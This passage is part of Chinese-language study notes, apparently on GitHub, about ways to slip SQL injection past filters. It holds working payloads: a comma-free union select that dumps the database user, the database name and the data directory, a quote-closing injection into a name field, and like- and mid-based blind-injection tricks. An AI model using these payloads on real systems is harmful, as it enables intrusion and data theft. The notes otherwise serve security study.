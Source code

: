   union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);

  //把里面1 2 3 4替换即可

  ```

  **like关键字**

  ```sql

  select ascii(mid(user(),1,1))=80   #等价于

  select user() like 'r%'

  ```

  **offset关键字（limit，其他未知）**

  ```sql

   select * from cms_users limit 0,1;   #等价于

   select * from cms_users limit 1 offset 0;

  ```

  #### 注释符绕过

  ```sql

  --+ ，# ；

  使用单引号（’）闭合语句

  $user = 1' union select version() and '1

  结果

  $str = "select * from user where name='1' union select version() and '1' limit 0,1 ";

  ```

- ### **SQL特性**

  #### **like**

  ```sql

   Select * from cms_users where username like "ad%";

  ```

  **里面%匹配任意字符**

           **_匹配单个字符**

  **理论上可以用来进行盲注**

  -->[SQL常见绕过](https://blog.csdn.net/weixin_42478365/article/details/119300607?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170208875716800227462182%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=170208875716800227462182&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-119300607-null-null.142^v96^pc_search_result_base7&utm_term=sql%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87%E6%96%B9%E6%B3%95&spm=1018.2226.3001.4187)<--
